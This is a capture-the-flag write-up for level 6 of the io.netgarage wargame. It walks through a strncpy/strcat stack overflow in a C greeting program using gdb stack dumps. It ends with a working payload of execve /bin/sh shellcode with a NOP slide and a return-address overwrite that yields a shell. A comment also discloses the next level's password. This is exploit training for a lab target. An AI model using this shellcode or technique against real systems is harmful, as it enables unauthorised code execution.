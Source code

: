 ## Level 6:

Strange *ebp* and *esp* overflow effect.

```c
 1 //written by bla
 2 //inspired by nnp
 3 #include <stdio.h>
 4 #include <stdlib.h>
 5 #include <string.h>
 6 
 7 enum{
 8 LANG_ENGLISH,
 9 LANG_FRANCAIS,
10 LANG_DEUTSCH,
11 };
12 
13 int language = LANG_ENGLISH;
14 
15 struct UserRecord{
16     char name[40];
17     char password[32];
18     int id;
19 };
20 
21 void greetuser(struct UserRecord user){
22     char greeting[64];
23     switch(language){
24         case LANG_ENGLISH:
25             strcpy(greeting, "Hi "); break;
26         case LANG_FRANCAIS:
27             strcpy(greeting, "Bienvenue "); break;
28         case LANG_DEUTSCH:
29             strcpy(greeting, "Willkommen "); break;
30     }
31     strcat(greeting, user.name);
32     printf("%s\n", greeting);
33 }
34 
35 int main(int argc, char **argv, char **env){
36     if(argc != 3) {
37         printf("USAGE: %s [name] [password]\n", argv[0]);
38         return 1;
39     }
40 
41     struct UserRecord user = {0};
42     strncpy(user.name, argv[1], sizeof(user.name));
43     strncpy(user.password, argv[2], sizeof(user.password));
44 
45     char *envlang = getenv("LANG");
46     if(envlang)
47         if(!memcmp(envlang, "fr", 2))
48             language = LANG_FRANCAIS;
49         else if(!memcmp(envlang, "de", 2))
50             language = LANG_DEUTSCH;
51 
52     greetuser(user);
53 }
```

strncpy doesn't protect against a overflow because it doesn't require a NUL termination more [here](https://devblogs.microsoft.com/oldnewthing/20050107-00/?p=36773).

The strncpy is one part of the puzzle. Currently if we try to store name larger or equel to 40 bytes we will save the 40 characters without the NUL byte and the same can be done with the password. This alone causes SIGSEGV but it isn't too helpful.

There is another "unsafe" function: strcat. We are concatinating first the greeting ("Hi ", ...) into the greeting variable and then the name. However since the name doesn't have NUL byte it will actually concatinate the password as well and this will cause an overflow. We are trying to fit 72 bytes (name + password) + greeting into a 64 byte reserved space. We can clearly see this in action if we just try to run the program with the max name and password.

```console
(gdb) r $(python -c 'print "A"*40 + " " + "B"*32')
Starting program: /levels/level06 $(python -c 'print "A"*40 + " " + "B"*32')
Bienvenue AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```

We see both of them get printed out. Now we can set a few breakpoints to look at the buffer in crucial points in the program.

```console
(gdb) disass main
Dump of assembler code for function main:
...
0x080486a8 <+277>:	rep movsl %ds:(%esi),%es:(%edi)
0x080486aa <+279>:	call   0x804851c <greetuser>
0x080486af <+284>:	lea    -0xc(%ebp),%esp
...
(gdb) disass greetuser
Dump of assembler code for function greetuser:
...
0x0804857e <+98>:	mov    %eax,(%esp)
0x08048581 <+101>:	call   0x80483d0 <strcat@plt>
0x08048586 <+106>:	lea    -0x48(%ebp),%eax
0x08048589 <+109>:	mov    %eax,(%esp)
0x0804858c <+112>:	call   0x80483f0 <puts@plt>
0x08048591 <+117>:	leave  
0x08048592 <+118>:	ret
(gdb) b *0x08048581
Breakpoint 1 at 0x8048581
(gdb) b *0x08048591
Breakpoint 2 at 0x8048591
```

We set the breakpoints before and after the strcat function to see what exactly happens (i.e. addresses: 0x08048581 and 0x08048591).

```console
(gdb) r $(python -c 'print "A"*40 + " " + "B"*32')
Starting program: /levels/level06 $(python -c 'print "A"*40 + " " + "B"*32')

Breakpoint 1, 0x08048581 in greetuser ()
(gdb) x/52xw $esp
0xbffffb00:	0xbffffb10	0xbffffb60	0x07b1ea71	0xbffffb30
0xbffffb10:	0x6e656942	0x756e6576	0x00002065	0xb7e3bff0
0xbffffb20:	0xbfffff6b	0xb7e15b58	0x00000002	0xb7fffc10
0xbffffb30:	0xb7fe9eeb	0xbffffbb0	0x00000003	0xbffffbfc
0xbffffb40:	0xbffffc18	0xb7ff05f0	0xbfffff6b	0xb7e85360
0xbffffb50:	0xb7e85397	0x00000003	0xbffffc18	0x080486af
0xbffffb60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb80:	0x41414141	0x41414141	0x42424242	0x42424242
0xbffffb90:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffffba0:	0x42424242	0x42424242	0x00000000	0x080482da
0xbffffbb0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbc0:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) x/s 0xbffffb60
0xbffffb60:	'A' <repeats 40 times>, 'B' <repeats 32 times>
(gdb) c
Continuing.
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x08048591 in greetuser ()
(gdb) x/52xw $esp
0xbffffb00:	0xbffffb10	0xbffffb60	0x07b1ea71	0xbffffb30
0xbffffb10:	0x41206948	0x41414141	0x41414141	0x41414141
0xbffffb20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb30:	0x41414141	0x41414141	0x42414141	0x42424242
0xbffffb40:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffffb50:	0x42424242	0x42424242	0x00424242	0x080486af
0xbffffb60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb80:	0x41414141	0x41414141	0x42424242	0x42424242
0xbffffb90:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffffba0:	0x42424242	0x42424242	0x00000000	0x080482da
0xbffffbb0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbc0:	0x41414141	0x41414141	0x41414141	0x41414141
```
We can see the A's and B's as well as the return address 0x080486af. We are not overwriting it right now, it seems the buffer is too small to reach it. Thankfully we can add few more bytes by changing the LANG variable, I chose fr for french.

```console
(gdb) set environment LANG=fr
(gdb) r $(python -c 'print "A"*40 + " " + "B"*32')
Starting program: /levels/level06 $(python -c 'print "A"*40 + " " + "B"*32')

Breakpoint 1, 0x08048581 in greetuser ()
(gdb) c
Continuing.
Bienvenue AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x08048591 in greetuser ()
(gdb) x/52xw $esp
0xbffffb00:	0xbffffb10	0xbffffb60	0x07b1ea71	0xbffffb30
0xbffffb10:	0x6e656942	0x756e6576	0x41412065	0x41414141
0xbffffb20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb40:	0x42424141	0x42424242	0x42424242	0x42424242
0xbffffb50:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffffb60:	0x41004242	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb80:	0x41414141	0x41414141	0x42424242	0x42424242
0xbffffb90:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffffba0:	0x42424242	0x42424242	0x00000000	0x080482da
0xbffffbb0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbc0:	0x41414141	0x41414141	0x41414141	0x41414141
```

Now we overwrote the return address!



We can also see after the 40 bytes of A's the remaining size is 26 before we overwrote the return address, so we need to add 26 random bytes (I chose "B" or \x42) and then append the starting address of the shellcode (in my case: 0xbffffb1a).

So our total payload looks like this:
```console
(gdb) r $(python -c 'print "A"*6 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*11 + " " + "B"*26 + "\x1a\xfb\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level06 $(python -c 'print "A"*6 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*11 + " " + "B"*26 + "\x1a\xfb\xff\xbf"')

Breakpoint 4, 0x08048581 in greetuser ()
(gdb) c
Continuing.
Bienvenue AAAAAA1�Ph//shh/bin��PS��
                                   AAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBB����

Breakpoint 5, 0x08048591 in greetuser ()
(gdb) c
Continuing.
process 3917 is executing new program: /bin/bash
sh-4.3$
```

After continuing throught our breakpoints we get the shell. I've also added a NOP slide (\x90 bytes) to help if the address was slightly off (this helps me in the future). If we however try this outside the gdb we get an error.


```console
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + " " + "B"*26 + "\x1a\xfb\xff\xbf"')
Bienvenue �����������������1�Ph//shh/bin��PS��
                                              BBBBBBBBBBBBBBBBBBBBBBBBBB����
Illegal instruction
level6@io:/levels$ 
```

This is because the address while using the gdb was probably slightly different. There is a way to use the absolut address, for this solution you can go [here](https://github.com/randomcompanyname/ctf_writeup/blob/master/io.netgarage.org/level6.md). 

What I tried is changing the least significant byte by a factor of 16 (i.e. \x00 -> \x10 -> \x20 ...) to find the address. Since I'm using the NOP slide I need just the approximate location to the payload to execute it and it turns out to be 0xbffffb40:

```console
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + " " + "B"*26 + "\x40\xfb\xff\xbf"')
Bienvenue �����������������1�Ph//shh/bin��PS��
                                              BBBBBBBBBBBBBBBBBBBBBBBBBB@���
sh-4.3$ 
```

<!-- Level 7 password ==> U3A6ZtaTub14VmwV -->
